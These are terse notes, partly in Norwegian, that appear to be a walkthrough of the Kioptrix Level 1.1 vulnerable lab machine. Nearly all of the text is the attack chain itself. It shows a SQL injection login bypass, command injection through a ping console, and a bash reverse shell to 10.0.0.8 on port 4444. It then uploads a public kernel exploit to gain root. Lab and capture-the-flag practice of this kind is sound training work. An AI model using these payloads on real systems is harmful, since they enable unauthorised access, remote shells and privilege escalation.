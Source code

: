 ## kioptrix 2 \(level 1.1\)

admin' or '1'='1

admin' or '1'='1

ping console

10.0.0.13;whoami for å kjøre kommandoer ;

bash -i &gt;& /dev/tcp/10.0.0.8/4444 0&gt;&1

**shell**

centos 4.5 og kernel 2.6



last opp 954.c

https://www.exploit-db.com/exploits/9542/

exploit :D

**root**

